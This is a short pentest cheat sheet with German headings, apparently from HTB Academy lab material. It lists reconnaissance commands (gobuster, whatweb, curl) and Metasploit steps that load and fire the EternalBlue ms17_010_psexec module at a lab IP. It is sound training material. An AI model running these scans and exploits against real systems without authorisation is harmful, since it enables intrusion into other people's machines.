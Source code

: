 ### Enumeration Unterordner

{% code overflow="wrap" fullWidth="false" %}
```
#Run a directory scan on a website |
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

#Run a sub-domain scan on a website
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

#Grab website banner
curl -IL https://www.inlanefreight.com

#List details about the webserver/certificates
whatweb 10.10.10.121

#List potential directories in "robots.txt"
curl 10.10.10.121/robots.txt

#View page source (in Firefox)
ctrl+U
```
{% endcode %}

### Öffentliche Exploits

{% code overflow="wrap" fullWidth="false" %}
```
#Search for public exploits for a web application
searchsploit openssh 7.2

#MSF: Start the Metasploit Framework
msfconsole

#MSF: Search for public exploits in MSF
search exploit eternalblue

#MSF: Start using an MSF module
use exploit/windows/smb/ms17_010_psexec

#MSF: Show required options for an MSF module
show options

#MSF: Set a value for an MSF module option
set RHOSTS 10.10.10.40

#MSF: Test if the target server is vulnerable
check

#MSF: Run the exploit on the target server is vulnerable
exploit
```
{% endcode %}
